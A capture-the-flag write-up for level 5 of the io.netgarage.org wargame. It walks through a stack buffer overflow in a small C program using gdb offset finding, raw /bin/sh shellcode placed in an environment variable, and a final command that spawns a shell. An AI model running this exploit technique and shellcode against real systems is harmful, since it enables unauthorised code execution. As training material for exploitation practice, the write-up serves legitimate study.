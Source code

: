 # Preparation
From **previous level**, we have:
- Username: level5
- Password: ----------------- :)
- Ssh server: io.netgarage.org
# Start
`/levels/level05.c`
```cpp
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {

    char buf[128];

    if(argc < 2) return 1;

    strcpy(buf, argv[1]);

    printf("%s\n", buf);

    return 0;
}
```

Yet another buffer overflow...
## What we have:
- `strcpy` copy `argv[1]` to `buf` without checking bound
- checksec:
```
[*] '/levels/level05'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
## Exploit:
There's no `PIE` and `NX` enable, so we can easily use shellcode to get the shell.
But first, we need to find offset from our `buf` to saved `EIP` 
Starting with identical string `ABCD` as usual :))
```
(gdb) break * 0x08048419 # break at leave instruction
(gdb) run ABCD

(gdb) x/50x $esp
0xbffffb00:     0x08048524      0xbffffb20      0xb7fff920      0xb7e9ddb3
0xbffffb10:     0xbffffb3e      0x00000000      0xb7fe5110      0x00000000
0xbffffb20:     0x44434241 <-   0x00000000      0x002c307d      0x00000000
0xbffffb30:     0xb7fff000      0xb7fff920      0xbffffb50      0x0804820b
0xbffffb40:     0x00000000      0xbffffbe4      0xb7fc1000      0x00000005
0xbffffb50:     0x0177ff8e      0xb7fc1000      0xb7e19e18      0xb7fd58e8
0xbffffb60:     0xb7fc1000      0xbffffc44      0xb7ffed00      0x08048320
0xbffffb70:     0xffffffff      0x0804960c      0xbffffb88      0x08048291
0xbffffb80:     0x00000002      0xb7fc1000      0xbffffba8      0x08048489
0xbffffb90:     0xb7fc13dc      0x08048184      0x00000000      0x00000000
0xbffffba0:     0x00000002      0xb7fc1000 <-   0x00000000      0xb7e25276 <- Saved EIP
0xbffffbb0:     0x00000002      0xbffffc44      0xbffffc50      0x00000000
0xbffffbc0:     0x00000000      0x00000000
(gdb) print $ebp
$1 = (void *) 0xbffffba8
```

Our `buffer` is at `0xbffffb20` and Saved EIP at `0xbffffbac` -> Offset (140)

[Shellcode](http://shell-storm.org/shellcode/files/shellcode-827.php): `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80`

This stack still have ASLR and we have to careful about it. A workaround specified in `Hacking: The Art of Exploitation`, by creating shellcode inside environment variable, which is much more stable

/tmp/getenv.c
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char *argv[]) {
        char *ptr;
        if(argc < 3) {
                printf("Usage: %s <environment var> <target program name>\n", argv[0]);
                exit(0);
        }
        ptr = getenv(argv[1]); /* Get env var location. */
        ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* Adjust for program name. */
        printf("%s will be at %p\n", argv[1], ptr);
}
```

```
level5@io:/levels$ export SHELL=$(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'")
level5@io:/levels$ /tmp/a.out SHELL /levels/level05
SHELL will be at 0xbffffdf5

level5@io:/levels$ /levels/level05 $(python -c "print 'A' * 140 + '\xf5\xfd\xff\xbf'")
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
sh-4.3$

```